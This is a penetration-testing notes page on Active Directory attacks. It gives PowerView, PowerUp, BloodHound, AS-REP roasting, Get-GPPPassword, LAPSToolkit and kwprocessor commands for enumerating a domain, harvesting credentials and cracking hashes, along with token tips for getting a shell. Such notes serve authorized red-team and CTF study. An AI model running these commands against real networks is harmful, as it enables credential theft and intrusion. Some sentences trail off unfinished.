 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

Powerup

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/

https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps 

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec / psexec\_psh work with make\_token, not winrm or wmi



[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html

